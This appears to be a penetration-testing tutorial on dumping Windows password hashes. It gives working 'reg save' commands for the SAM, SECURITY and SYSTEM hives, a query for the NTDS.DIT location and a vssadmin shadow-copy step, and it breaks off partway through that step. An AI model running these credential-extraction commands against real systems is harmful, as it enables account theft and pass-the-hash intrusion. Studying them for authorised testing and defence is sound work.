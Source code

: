# How-To efficiently dump hashes
In order to dump the hashes of a system, you'll obviously need administrator privileges!

There are two families of hashes:
* hashes of local user accounts. They are stored within the SAM database of a system;
* hashes of domain user accounts. They are stored within the NTDS.DIT database of a Domain Controller. They can also be found in memory within the LSASS process.

Hashes are not stored in cleartext within the SAM or NTDS.DIT databases. They are encrypted with a BootKey stored within the SYSTEM hive.
By pulling the various hives (SAM, SYSTEM, SECURITY or NTDS.DIT) from a targeted system into your attacker's laptop, it is possible to perform an offline attack and extract these local or domain user account's hashes.

They can be used to perform [pass-the-hash attacks](Pass-the-hash.md) or password cracking to obtain plaintext passwords.

However, online attacks are also possible with tools like *CrackMapExec*, *Mimikatz*, *Impacket's secretsdump*...

## Pulling the hives
You will have to copy these hives on your attacker's system in order to dump the hashes.
You can perform the following techniques locally (from a cmd / Powershell prompt) or remotely thanks to [this guide](LateralMovement.md).

### Server or workstation (SAM / SYSTEM / SECURITY)
```
> reg save HKLM\SAM sam.hive
> reg save HKLM\SECURITY security.hive
> reg save HKLM\SYSTEM system.hive
```

### Active Directory (NTDS.DIT / SYSTEM)
No change for the system hive dumping:
```
> reg save HKLM\SYSTEM system.hive
```

However, copy NTDS.DIT requires different methods:
0. Check the location of the NTDS.DIT file from the *DSA Database file* parameter:
```
> reg query HKLM\System\CurrentControlSet\Services\NTDS\Parameters
```

1. VSS shadow copy:
> vssadmin.exe is natively present on the DC. In this example we will suppose that NTDS.DIT is present in C:\Windows\NTDS\NTDS.DIT.
Please adapt it for your need...

* Create a volume shadow copy of C:
```
> vssadmin create shadow /for=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2005 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: <volume_guid>
    Shadow Copy Volume Name: <volume_name>
```
> The <volume_name> usually looks like **\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8**
